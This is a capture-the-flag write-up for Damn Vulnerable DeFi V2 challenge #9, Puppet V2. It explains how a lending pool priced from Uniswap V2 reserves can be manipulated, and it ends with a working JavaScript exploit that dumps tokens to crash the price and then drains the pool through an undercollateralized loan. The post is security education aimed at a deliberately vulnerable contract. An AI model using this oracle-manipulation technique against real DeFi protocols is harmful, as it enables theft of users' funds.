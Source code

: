 # Damn Vulnerable DeFi V2 - #9 Puppet V2

<p className="text-xs text-right">February 28, 2022 by [patrickd](/about#patrickd)</p>

This is part 6 of the write-up series on Damn Vulnerable DeFi V2. Please consider attempting to solve it on your own first since it's a lot less fun after being spoiled!

---

>[**Challenge #9 - Puppet v2**](https://www.damnvulnerabledefi.xyz/challenges/9.html)
>
>The developers of the [last lending pool](https://www.damnvulnerabledefi.xyz/challenges/8.html) are saying that they've learned the lesson. And just released a new version!
>
>Now they're using a [Uniswap v2 exchange](https://docs.uniswap.org/protocol/V2/introduction) as a price oracle, along with the recommended utility libraries. That should be enough.
>
>You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)


## Code Review

As usual, we start by looking at the testcases. In [puppet-v2.challenge.js](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/puppet-v2/puppet-v2.challenge.js) we find a quite complex looking scenario setup script, essentially doing the following things:

1. Gives the attacker account 20 ether
2. Deploy DamnValuableToken and Wrapped Ether token contract (WETH9)
3. Deploys the UniswapRouter and uses it to create a DVT-WETH pair with 100 DVT and 10 WETH of liquidity
4. Deploys PuppetV2Pool and provides it with 1.000.000 DVT
5. Gives the attacker 10.000 DVT

There are also things happening like the initialization of a UniswapFactory contract that gets passed to the Router contract. Or the fact that addresses of WETH, DVT, the exchange pair, and the factory contracts, all get passed as construction arguments into the PuppetV2Pool - but for now we can just skip over those details since they're unlikely to play much of a role in solving the challenge.

The success conditions are simple: The pool must have 0 DVT while the attacker must have at least as much DVT as the pool initially had - meaning the attacker must steal all of the pool's token.

---

Unlike in the previous challenge, this time the Uniswap contracts are [included via the NPM package manager](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/package.json#L30-L31), so there's little doubt that they're in their original state and unlikely to be vulnerable. The [WETH9 contract](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/WETH9.sol), used for wrapping ether into the WETH ERC20 token, is a well established contract and was copied without changes as well.

Therefore, the only thing we have to look at right now is [PuppetV2Pool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet-v2/PuppetV2Pool.sol), which looks quite similar to [PuppetPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet/PuppetPool.sol) from the previous challenge. The first significant change I noticed was the fact that now 3 (instead of 2) times as much ether as the borrowing value needs to be deposited as collateral.

Furthermore, as explained by the challenge description, the function determining the token price is now indeed using the official utility library of Uniswap:

```typescript
// Fetch the price from Uniswap v2 using the official libraries
function _getOracleQuote(uint256 amount) private view returns (uint256) {
    (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library.getReserves(
        _uniswapFactory, address(_weth), address(_token)
    );
    return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
}
```

Looking at this naively would make you think along the lines of: This is the recommended way of determining the price, so this should be safe to use!

But if you actually look at the library you'll realize that the "magic" is not much different to [how price calculation worked in V1](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/puppet/PuppetPool.sol#L49-L52):

```typescript
library UniswapV2Library {
    ...
    // given some amount of an asset and pair reserves, returns an equivalent amount of the other asset
    function quote(uint amountA, uint reserveA, uint reserveB) internal pure returns (uint amountB) {
        ...
        amountB = amountA.mul(reserveB) / reserveA;
    }
    ...
}
```

Note that, since this is an internal library function it will be inlined into the PuppetV2Pool contract during compilation.


## Exploit

Just like in the [previous challenge](https://ventral.digital/posts/2022/2/23/damn-vulnerable-defi-v2-8-puppet), we again simply have to manipulate the amount of reserves: By selling as many tokens as possible we can increase the reserve amount of DVT while decreasing the amount of ether. This will effectively cause a price drop that will allow us to again take an undercollateralized loan that we don't intend to ever pay back.

Now we just have to rewrite the previous exploit to use Uniswap V2 instead of V1 for making the swap, and to use WETH instead of ether:

```javascript filename="puppet-v2.challenge.js" copy
it('Exploit', async function () {
    // Swap all attacker's initial tokens for ether to dump DVT price.
    await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
    await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
            ATTACKER_INITIAL_TOKEN_BALANCE,                  // Swap lall of the attacker's tokens.
            0,                                               // We don't care how much ether we get back.
            [this.token.address, this.uniswapRouter.WETH()], // Swap path from token to ether.
            attacker.address,                                // Ether to attacker account.
            9999999999                                       // No deadline.
    );
    // Attacker now has about 30 ether:
    console.log('Attacker`s eth balance:', (await ethers.provider.getBalance(attacker.address)).toString());

    // Collateral required to borrow all of the pool's DVT is now about 29.5 ether.
    const collateral = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
    console.log('Required collateral in eth:', collateral.toString());
    // Convert ether to WETH, give allowance to pool contract and use it to borrow DVT.
    await this.weth.connect(attacker).deposit({ value: collateral });
    await this.weth.connect(attacker).approve(this.lendingPool.address, collateral);
    await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
});
```

At least this time the Uniswap documentation was quite informative and it didn't take long to implement the changes.


## Conclusion

There's not much new to say since this challenge was very similar to the previous one. But if there's one key take away, it's that you can't blindly trust the "recommended way" of doing things. You should still try to understand what is actually happening under the hood, what drawbacks it has and whether you're actually using it as intended.

---


<Cards>
  <Card
    icon={<FileIcon />}
    title="← Damn Vulnerable DeFi V2 - #8 Puppet"
    href="/posts/2022/2/23/damn-vulnerable-defi-v2-8-puppet/"
  />
  <Card
    icon={<FileIcon />}
    title="Damn Vulnerable DeFi V2 - #10 Free Rider →"
    href="/posts/2022/3/2/damn-vulnerable-defi-v2-10-free-rider/"
  />
</Cards>